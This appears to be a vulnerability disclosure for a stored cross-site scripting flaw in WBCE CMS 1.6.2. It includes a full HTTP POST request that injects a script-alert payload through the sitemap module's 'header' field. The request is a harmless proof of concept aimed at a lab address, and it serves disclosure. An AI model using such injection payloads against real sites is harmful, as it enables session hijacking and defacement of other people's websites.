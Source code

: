 Vulnerability type : Cross Site Scripting

Vendor of the product(s) : https://wbce.org/de/wbce、https://github.com/WBCE/WBCE_CMS

Affected Product Code Base : WBCE_CMS =1.6.2

Affected Component : /admin/pages/modify.php、/wbce/modules/sitemap/save.php

Attack Type : Remote

Attack Vectors : Users can insert JavaScript statements by controlling website_header


Stored Cross-Site Scripting

![](vx_images/259173815259273.png =800x)

request packet

```
POST /wbce/modules/sitemap/save.php HTTP/1.1
Host: 192.168.168.129
Content-Length: 370
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.168.129
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.168.129/wbce/admin/pages/modify.php?page_id=4
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: session_b2evo=1_8Lvt6Brj6zjgD62GctG92mRj3pftZwEK; loginstate=false; phpsessid-9277-sid=c7ufghg4icqd737a3segkc1ith; stElem___stickySidebarElement=%5Bid%3A0%5D%5Bvalue%3AnoClass%5D%23%5Bid%3A1%5D%5Bvalue%3AnoClass%5D%23%5Bid%3A2%5D%5Bvalue%3AnoClass%5D%23%5Bid%3A3%5D%5Bvalue%3AnoClass%5D%23%5Bid%3A4%5D%5Bvalue%3AnoClass%5D%23%5Bid%3A5%5D%5Bvalue%3AnoClass%5D%23%5Bid%3A6%5D%5Bvalue%3AnoClass%5D%23; WBCELastConnectJS=1722929712
Connection: close

page_id=4&section_id=4&static=1&formtoken=23cd25eb-c83644b5f00c0344e9652534dc6a7dc0bf26cd39&startatroot=1&depth=0&all_menus=0&header=%3Cscript%3Ealert%28%22xss+test%21%22%29%3C%2Fscript%3E&level_header=%3Cul%3E&sitemaploop=%3Cli%3E%3Ca+href%3D%22%5BLINK%5D%22+target%3D%22%5BTARGET%5D%22%3E%5BPAGE_TITLE%5D%3C%2Fa%3E%3C%2Fli%3E&level_footer=%3C%2Ful%3E&footer=&save=Save
```



![](vx_images/516704015247140.png =800x)
